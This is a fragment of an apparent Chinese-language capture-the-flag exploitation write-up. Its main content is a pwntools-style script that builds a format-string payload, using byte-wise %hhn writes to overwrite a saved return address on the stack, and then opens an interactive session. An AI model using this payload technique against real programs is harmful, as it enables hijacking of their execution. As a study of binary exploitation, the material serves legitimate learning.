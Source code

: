```c
current_n = 0
payload =  generate_hhn_payload(0xc0,  ((ret_addr) & 0xff ) )
payload += generate_hhn_payload(0xc8, ( (ret_addr >> 8) & 0xff ) )
payload += generate_hhn_payload(0xd0, ( (ret_addr >> 16) & 0xff ))
payload += generate_hhn_payload(0xd8, ( (ret_addr >> 24) & 0xff ))
payload += generate_hhn_payload(0xe0, ( (ret_addr >> 32) & 0xff ))
payload += generate_hhn_payload(0xe8, ( (ret_addr >> 40) & 0xff ))
payload = payload.ljust(0xc0, b"\x00")
payload += p64(stack_buf + 0 + 0x118)
payload += p64(stack_buf + 0 + 0x119)
payload += p64(stack_buf + 0 + 0x11a)
payload += p64(stack_buf + 0 + 0x11b)
payload += p64(stack_buf + 0 + 0x11c)
payload += p64(stack_buf + 0 + 0x11d)
sl(payload)

ia()
```

最终构成如下栈布局：

![[Untitled.png]]